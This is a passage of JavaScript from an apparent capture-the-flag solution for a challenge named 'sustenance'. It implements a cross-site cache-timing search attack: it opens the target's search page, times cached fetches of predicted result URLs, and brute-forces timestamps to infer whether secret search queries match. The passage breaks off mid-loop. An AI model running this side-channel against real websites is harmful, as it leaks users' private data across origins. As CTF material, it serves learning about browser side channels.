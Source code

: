 ```html
  async function calculateBaseline() {
    var m = Math.random()
    let win = window.open('https://sustenance.web.actf.co/?m=cached_' + m)
    
    // NOTE: this number can be decreased by detecting window load
    await sleep(500)
    win.close()
    let total = 0
    for(let i=1; i<=5; i++) {
      let ts = await getLoadTime('https://sustenance.web.actf.co/?m=cached_' + m)
      total += ts
      report(`Cached time, round: ${i}, ${ts}ms`)
    }
    // NOTE: 0.5 is just a random guess
    baseLine = (total/5) + 0.5
    report(`Baseline: ${baseLine}`)
    
    // NOTE: adjust baseline, should not be more than 3 ms based on previous testing
    if (baseLine > 3) {
      baseLine = 3
    }
    for(let i=1; i<=3; i++) {
      let ts = await getLoadTime('https://sustenance.web.actf.co/?m=not_cached_' + m)
      report(`Not Cached time, round: ${i}, ${ts}ms`)
    }
  }

  // NOTE: server is quite fast so no need to set timeout
  async function getLoadTime(url) {
    const start = performance.now()
    await fetch(url, { cache: 'force-cache', mode: 'no-cors' })
    return performance.now() - start
  }

  // function to bruteforce the successful search
  function genSucceedUrl(t) {
    let ft = t + ''
    while(ft.length < 13) {
      ft += '0'
    }
    const status = "succeeded, but please give me sustenance if you want to be able to see your search results because I desperately require sustenance";
    return 'https://sustenance.web.actf.co/?m=' + encodeURIComponent(`your search that took place at ${ft} has ${status}`);
  }


  async function isCached(str) {
    let start = +new Date()
    let win = window.open(`https://sustenance.web.actf.co/q?q=` + encodeURIComponent(str))
    await sleep(500)
    win.close()
    
    // NOTE: base on the data collected, i should be 1~20, pretty small number
    for(let i=1; i<=30; i++) {
      const url = genSucceedUrl(start + i)
      let loadTime = await getLoadTime(url)
      if (loadTime <= baseLine) {
        
        // NOTE: check again to see if it really meets the condition
        let total = 0
        for(let j=1; j<=3; j++) {
          total += await getLoadTime(url)
```